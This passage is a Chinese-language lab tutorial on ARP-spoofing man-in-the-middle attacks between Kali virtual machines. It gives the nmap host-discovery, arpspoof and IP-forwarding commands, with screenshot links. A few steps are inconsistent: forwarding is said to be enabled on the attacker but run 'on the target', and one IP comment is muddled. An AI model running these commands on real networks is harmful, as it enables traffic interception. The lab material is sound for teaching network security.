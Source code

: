     - 2.KaliGateway网关

   ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/WEBRESOURCE0d683e6906d3e1ec92ac20e9a3fe7127/3597)

   - 3.KaliTarget靶机

   ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/WEBRESOURCEcb9ddac16bfd1e451d6b0f5d720c74ff/3596)

- 在KaliAttackhost攻击者主机中查看所在局域网中主机相关信息，寻找可行攻击目标
执行
  ```bash
  nmap -sP 192.168.111.0/24
  ```
  ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/WEBRESOURCEabadf45d8329839aa10f00f141d82b08/3600)

  从执行结果可以看到攻击者主机所在局域网192.168.111.0/24中有三个主机，ip地址分别为192.168.111.1/24，192.168.111.2/24，同时，可以通过latency等信息判断出执行该条命令的主机ip地址为192.168.111.3/24，该局域网中其他主机的MAC地址同样可以获取。
- 选择ip地址为192.168.111.2/24的主机进行arp攻击
- 在攻击者主机执行：
  ```bash
  # 192.168.111.2为靶机的IP地址，192.168.111.1为靶机的默认网关的ip地址
  ```
  ```bash
  arpspoof -i eth0 -t 192.168.111.2 192.168.111.1
  ```

   ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/48FEEBA2BAF44461938BCDC67360F136/3613)

   从执行结果可以看出，此时Kalitarget靶机不能访问互联网，流量被攻击者主机劫持

- 开启KaliAttackhost攻击者主机的ipv4转发功能，转发来自Kalitarget靶机的流量
   - 1.在靶机执行
  ```bash
  echo 1 > /proc/sys/net/ipv4/ip_forward
  ```
  ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/F778F51993654360A32BFC81534A8AC9/3622)

  - 2.在靶机执行

  ```bash
  cat /proc/sys/net/ipv4/ip_forward
  ```

  ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/17889703928D425695A3515FCB0FEB2C/3623)

  - 3.在靶机执行
   ```bash
   ping baidu.com
   ```
   ![image](https://note.youdao.com/yws/public/resource/f397531bc9ed8bc00735fe226041b9f2/xmlnote/F0715CDC18AC483B8AE3A40580E5FDA4/3627)

   通过执行结果可知，KaliAttackhost成功开启arp欺骗的同时开启ipv4转发功能，此时KaliTarget靶机也可以正常上网。

- 执行arpspoof -i eth0 -t 192.168.111.1 192.168.111.2实现对网关的欺骗，此时形成中间人，可以进行劫持攻击
   ```bash
    # 192.168.111.1为靶机的默认网关的ip地址，192.168.111.2为靶机的IP地址网关的ip地址
   ```
   ```bash
   arpspoof -i eth0 -t   192.168.111.1 192.168.111.2
  ```
  